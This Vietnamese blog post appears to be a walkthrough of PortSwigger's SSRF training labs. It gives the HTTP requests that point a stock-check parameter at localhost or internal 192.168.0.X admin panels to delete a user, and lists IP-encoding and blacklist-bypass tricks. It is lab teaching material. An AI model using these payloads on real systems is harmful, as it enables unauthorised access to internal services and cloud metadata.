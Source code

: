 ```yaml
---
title: "[PortSwigger Lab] - Server Site Request Forgery (SSRF)"
description: Solution of Server Site Request Forgery (SSRF) Lab
date: 2025-06-11 17:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, ssrf]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-11-portswigger-lab-ssrf/ssrf.png
    alt: Server Site Request Forgery (SSRF)
---
```


## Introduction
---
### **Server Site Request Forgery (SSRF)**
- **Server Site Request Forgery (SSRF)** là một lỗ hổng bảo mật web cho phép kẻ tấn công lợi dụng máy chủ để gửi các requests tới các hệ thống khác mà lẽ ra không nên được truy cập.
- Trong một cuộc tấn công **SSRF**, kẻ tấn công gửi một yêu cầu độc hại đến một máy chủ **web**. Thay vì chính trình duyệt của kẻ tấn công thực hiện yêu cầu, máy chủ **(server)** sẽ thực hiện thay, và gửi đến địa chỉ mà kẻ tấn công chỉ định.

### Impact of SSRF attacks
- **Truy cập hệ thống nội bộ (Internal Services) như:**
   -  `http://127.0.0.1`, `http://localhost`, `http://169.254.169.254` `(metadata API của cloud như AWS)`.
    - Dịch vụ quản trị cơ sở dữ liệu, `Redis`, hoặc `admin panels`.
- **Lộ thông tin nhạy cảm:** `Token`, `credentials`, thông tin nội bộ...
- **Mở rộng tấn công:** Gửi yêu cầu từ máy chủ đến hệ thống bên ngoài, khiến các cuộc tấn công dường như xuất phát từ phía `máy chủ (trusted source)`.
- **Remote code execution (RCE):** Trong một số trường hợp nghiêm trọng, **SSRF** có thể dẫn đến thực thi mã tùy ý từ xa.

## Solve SSRF Lab

| Dạng                | Ví dụ                                  |
| ------------------- | -------------------------------------- |
| Decimal (số nguyên) | `2130706433` → tương đương `127.0.0.1` |
| Octal (bát phân)    | `017700000001`                         |
| Shortened IP        | `127.1` (tương đương `127.0.0.1`)      |
| Mixed format        | `127.000.000.001` hoặc `127.0.1`       |
---
### Lab: Basic SSRF against the local server
#### Analysis
- Truy cập 1 blog bất kỳ và sử dụng chức năng **check-stock**
- Gửi request **check-stock** đến **Burp Repeater**

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

- Ta thấy giá trị của **stockApi** là `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1` sau khi decode
- Nó server thực hiện gửi http request để lấy dữ liệu stock
- Lợi dụng server để gửi request, lấy nội dung của trang **admin**

#### Exploit
- Thay đổi **url** đến trang **admin**

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://localhost/admin
```
- Quan sát tab **response**, ta thấy có đường dẫn đẻ xóa user `carlos`

```html
<a href="/admin/delete?username=carlos">Delete</a>
```
- Tiếp tục gửi request đế xóa user `carlos`

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://localhost/admin/delete?username=carlos
```

### Lab: Basic SSRF against another back-end system
#### Analysis
- Truy cập 1 blog bất kỳ và sử dụng chức năng **check-stock**
- Kiểm tra request, ta thấy:

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

- Ta thấy giá trị của **stockApi** là `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1` sau khi decode
- Nó server thực hiện gửi http request để lấy dữ liệu stock
- Lợi dụng server để gửi request, lấy nội dung của trang **admin**
- Tuy nhiên lần này trang **admin** nằm ở địa chỉ `192.168.0.X:8080`
- Ta phải tự động hóa bằng **Burp Intruder**

#### Exploit
- Gửi request đến **Burp Intruder**
- Thay đổi **url** đến trang **admin**

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://192.168.0.`1`/admin
```
- Add tại `1` 
- Chọn **Payload type: number** 
- Start 2, End 254, Step 1
- Response có status code `200` là của trang admin trả về
- Gửi request đó đến **Burp Repeater**
- Quan sát tab **response**, ta thấy có đường dẫn đẻ xóa user `carlos`

```html
<a href="/admin/delete?username=carlos">Delete</a>
```
- Tiếp tục gửi request đế xóa user `carlos`

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://192.168.0.71/admin/delete?username=carlos
```

> Sài **BurpSuite Pro** hoặc tạo **script** chứ không là chờ lòi dái
{: .prompt-info }

### Lab: SSRF with blacklist-based input filter
#### Analysis
- Truy cập 1 blog bất kỳ và sử dụng chức năng **check-stock**
- Kiểm tra request, ta thấy:

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

- Ta thấy giá trị của **stockApi** là `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1` sau khi decode
- Nó server thực hiện gửi http request để lấy dữ liệu stock
- Lợi dụng server để gửi request, lấy nội dung của trang **admin**
- Thay đổi request và gửi lại

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://localhost/admin
```
- Quan sát tab **response**, ta thấy `"External stock check blocked for security reasons"`

#### Exploit
- Thay đổi request có cả hoa và thường

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://localHost/Admin
```
- Gửi lại request
- Quan sát tab **response**, ta thấy có đường dẫn đẻ xóa user `carlos`

```html
<a href="/admin/delete?username=carlos">Delete</a>
```
- Tiếp tục gửi request đế xóa user `carlos`

```http
POST /product/stock HTTP/2
Host: 0a9f0041032fcfa981ca345e007c00ef.web-security-academy.net

stockApi=http://localHost/Admin/delete?username=carlos
```
- Từ kịch bản khai thác cho thấy server chưa filter chặt, path ở request
- Một số cách khai thác khác 

| Kỹ thuật               | Mô tả                                                   |
| ---------------------- | ------------------------------------------------------- |
| Alternative IP formats | Bỏ qua kiểm tra trực tiếp `127.0.0.1`                   |
| Custom DNS → localhost | Dùng tên miền tùy chỉnh trỏ về IP nội bộ                |
| Obfuscation            | Mã hóa URL, thay đổi chữ hoa-thường                     |
| Redirect-based SSRF    | Dùng server trung gian để chuyển hướng                  |
| Giao thức khác         | Đổi `http` thành `https`, `gopher`, `ftp`, `file`, v.v. |

### 

---
Goodluck! 🍀🍀🍀 